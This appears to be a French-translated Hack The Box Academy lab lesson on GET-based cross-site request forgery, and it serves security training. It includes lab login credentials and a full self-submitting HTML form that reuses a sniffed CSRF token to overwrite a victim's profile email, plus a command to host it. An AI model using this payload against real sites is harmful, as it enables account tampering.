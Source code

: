 Cross-Site Request Forgery (basée sur GET)
===========================================

De la même manière que nous pouvons extraire les cookies de session des applications qui n'utilisent pas le cryptage SSL, nous pouvons faire de même concernant les jetons CSRF inclus dans les demandes non cryptées.

Voyons un exemple.

Allez à la fin de cette section et cliquez sur `Click here to spawn the target system!`ou l' `Reset Target`icône , puis utilisez la Pwnbox fournie ou une VM locale avec la clé VPN fournie pour pouvoir atteindre l'application cible et suivre. Ensuite, configurez le vhost ( `csrf.htb.net`) spécifié pour accéder à l'application.

Accédez `http://csrf.htb.net`à l'application et connectez-vous à l'aide des informations d'identification ci-dessous :

-   Courriel : heavycat106
-   Mot de passe : rocknrol

Il s'agit d'un compte que nous avons créé pour examiner les fonctionnalités de l'application.

Maintenant, parcourez le profil de Julie Rogers et cliquez sur *Enregistrer* . Vous devriez voir ci-dessous. ![image](https://academy.hackthebox.com/storage/modules/153/32.png)

Activez le proxy de burp suite ( *Intercept On* ) et configurez votre navigateur pour le parcourir. Maintenant, cliquez à nouveau sur *Enregistrer* .

Vous devriez voir ci-dessous.

![image](https://academy.hackthebox.com/storage/modules/153/31.png)

Le jeton CSRF est inclus dans la requête GET.

Simulons un attaquant sur le réseau local qui a reniflé la requête susmentionnée et veut défigurer le profil de Julie Rogers par une attaque CSRF. Bien sûr, ils auraient pu simplement effectuer une attaque de piratage de session en utilisant le cookie de session reniflé.

Tout d'abord, créez et servez la page HTML ci-dessous. Enregistrez-le sous`notmalicious_get.html`

Code : html

```
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>

```

Notez que la valeur du jeton CSRF ci-dessus est la même que la valeur du jeton CSRF dans la requête capturée/"sniffée".

Si vous vous demandez comment nous avons créé le formulaire ci-dessus basé sur la requête GET interceptée, veuillez étudier la ressource suivante [Envoi des données du formulaire](https://developer.mozilla.org/en-US/docs/Learn/Forms/Sending_and_retrieving_form_data)

Vous pouvez servir la page ci-dessus depuis votre machine attaquante comme suit.

```
dsgsec@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...

```

Tout en restant connecté en tant que Julie Rogers, ouvrez un nouvel onglet et visitez la page que vous servez depuis votre machine d'attaque `http://<VPN/TUN Adapter IP>:1337/notmalicious_get.html`. Vous remarquerez que les détails du profil de Julie Rogers seront remplacés par ceux que nous avons spécifiés dans la page HTML que vous servez.

![image](https://academy.hackthebox.com/storage/modules/153/34.png)

Dans la section suivante, nous allons attaquer une application soumettant le jeton CSRF via POST sans avoir à résider dans le réseau local.
